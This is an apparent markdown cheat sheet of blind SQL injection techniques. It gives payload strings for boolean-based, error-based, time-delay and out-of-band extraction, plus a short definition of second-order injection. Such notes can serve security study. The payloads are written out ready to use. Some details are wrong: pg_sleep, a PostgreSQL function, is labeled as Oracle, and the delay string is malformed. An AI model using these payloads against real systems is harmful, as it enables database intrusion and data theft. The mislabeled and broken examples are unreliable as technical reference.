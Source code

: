 ### how to exploit 
1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response
```bash
Query = ' xyz AND "1"="1' 
```
**if get response than xyz if true other wise it DIDN'T get response from server**    or
```bash
Query = ' xyz AND "1"="2'
```

### inducing conditional Response by Triggering SQL Error
```bash
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'
```
**if condition is true server gives us the error if false 
coudnt get error**

##### for Oracle Data base 
```bash
Query= 'xyz \|\| (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \|\| '
```

### exploit BY Generating Delay 
```bash
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'
```
gives 10 second delay in response if condition true else DIDN'T delay in response

##### for oracle DB
```bash
Query = '\|\| pg_sleep(delay in seconds)+--+'
```

### exploit using OUt of band 
in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

## 2nd Order SQL Injection
#### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.